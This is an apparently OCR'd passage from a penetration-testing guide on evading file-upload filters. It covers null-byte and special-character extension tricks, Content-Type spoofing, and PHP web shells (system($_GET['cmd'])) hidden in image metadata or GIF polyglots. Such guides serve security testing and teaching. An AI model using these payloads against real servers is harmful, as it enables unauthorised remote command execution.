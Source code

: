     4. **Special character techniques**:
       - Step 1: Add special characters after the extension:
         - `shell.php%00`
         - `shell.php%20`
         - `shell.php%0d%0a`
         - `shell.php/`
         - `shell.php.\`
         - `shell.php#`
         - `shell.php?`
         - `shell.php:`
       - Step 2: Upload the file and observe if truncation occurs
       - Step 3: Check if nullbyte/space injection is handled properly
       - Step 4: Access the file to verify execution
       - Step 5: Try other special characters if needed
       - Example: If using `shell.php%00.jpg`, server might interpret this as `shell.php` due to null byte

  - **Bypassing content validation**
    1. **Manipulating Content-Type header**:
       - Step 1: Intercept the upload request with Burp Suite
       - Step 2: Locate the Content-Type header for your file
       - Step 3: Change it to an allowed type:
         - From: `Content-Type: application/x-php`
         - To: `Content-Type: image/jpeg` or `image/png`
       - Step 4: Forward the manipulated request
       - Step 5: Check if the file was accepted and access it
       - Example: Change header from `Content-Type: application/x-php` to `Content-Type: image/jpeg`

    2. **Creating valid image with embedded PHP code**:
       - Step 1: Start with a valid image file
       - Step 2: Add PHP code to the image metadata:
         - `exiftool -Comment="<?php system(\$_GET['cmd']); ?>" image.jpg`
       - Step 3: Make sure the file still opens as an image
       - Step 4: Upload the modified image file
       - Step 5: Access the file with a .php or relevant extension
       - Example: Use `exiftool` to add PHP code to the Comment field of a JPEG

    3. **Creating polyglot GIF/PHP files**:
       - Step 1: Create a file with both GIF header and PHP code:
       ```
       GIF89a;
       <?php system($_GET['cmd']); ?>
       ```
       - Step 2: Save as shell.php or shell.gif depending on the filter
       - Step 3: Upload the file through the application
       - Step 4: Access the file with appropriate parameter
       - Step 5: Verify code execution
       - Example: Start file with `GIF89a;` magic bytes, followed by PHP code

    4. **Exploiting imperfect content validation**:
       - Step 1: Analyze how the server validates file contents
       - Step 2: Create a file that passes content checks but contains malicious code
       - Step 3: For image validation, create valid image with code after image data
       - Step 4: For signature validation, include proper magic bytes at the start
       - Step 5: Upload the file and test execution
       - Example: For PNG validation, create file with PNG header and footer with PHP in IDAT chunk

